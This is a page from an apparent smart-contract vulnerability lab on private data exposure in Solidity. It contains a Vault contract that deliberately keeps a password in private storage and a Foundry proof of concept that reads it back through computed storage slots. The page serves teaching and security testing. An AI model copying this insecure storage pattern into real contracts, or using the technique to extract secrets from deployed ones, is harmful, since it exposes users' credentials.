 #  Private data
[Privatedata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Privatedata.sol)  
**Name:** Private Data Exposure

**Description:**  
Solidity stores the variables defined in the contract in slots. Each slot can accommodate up to 32 bytes or 256 bits. Given that all data stored on-chain, whether public or private, can be read, it is possible to read private data from the Vault contract by predicting the memory slot where the private data resides.

If the Vault contract is utilized in a production environment, malicious actors could employ similar techniques to access sensitive information such as user passwords.

**Mitigation:**  
Avoid storing sensitive data on-chain

**REF**  

https://quillaudits.medium.com/accessing-private-data-in-smart-contracts-quillaudits-fe847581ce6d

**Vault Contract:**  
```
contract Vault {
    // slot 0
    uint256 private password;

    constructor(uint256 _password) {
        password = _password;
        User memory user = User({id: 0, password: bytes32(_password)});
        users.push(user);
        idToUser[0] = user;
    }

    struct User {
        uint id;
        bytes32 password;
    }

    // slot 1
    User[] public users;
    // slot 2
    mapping(uint => User) public idToUser;

    function getArrayLocation(
        uint slot,
        uint index,
        uint elementSize
    ) public pure returns (bytes32) {
        uint256 a = uint(keccak256(abi.encodePacked(slot))) +
            (index * elementSize);
        return bytes32(a);
    }
}
```
**How to Test:**

forge test --contracts src/test/Privatedata.sol-vvvv  
```
// Function declaration for testReadprivatedata() which is a public function.
    function testReadprivatedata() public {
        
        // A new instance of the Vault contract is created with an argument `123456789`.
        VaultContract = new Vault(123456789);

        // Calls the `vm.load` function with the Vault contract's address and the location (0).
        // The `vm.load` function loads data from the given storage slot in the contract at the provided address.
        // Here, the 0th storage slot of the contract is read. In Solidity, storage layout starts from slot 0.
        bytes32 leet = vm.load(address(VaultContract), bytes32(uint256(0)));

        // Logs the value of the first storage slot, converting the bytes32 value to a uint256.
        console.log(uint256(leet));

        // The `vm.load` function is called again, but this time, it uses a method `getArrayLocation` from the VaultContract to
        // calculate the storage slot of a specific array element. This is because arrays in Ethereum are not stored 
        // in contiguous blocks but each element is hashed to find its location.
        // Here, it's assumed that there's an array in the Vault contract and you're trying to access the data at slot 1 (based on your parameters)
        bytes32 user = vm.load(
            address(VaultContract),
            VaultContract.getArrayLocation(1, 1, 1)
        );
        
        // Logs the value of the particular array element that was read from the contract storage, converting it from bytes32 to uint256.
        console.log(uint256(user));
    }
```  
Red box: read private data successful.
![Alt text](image-8.png) 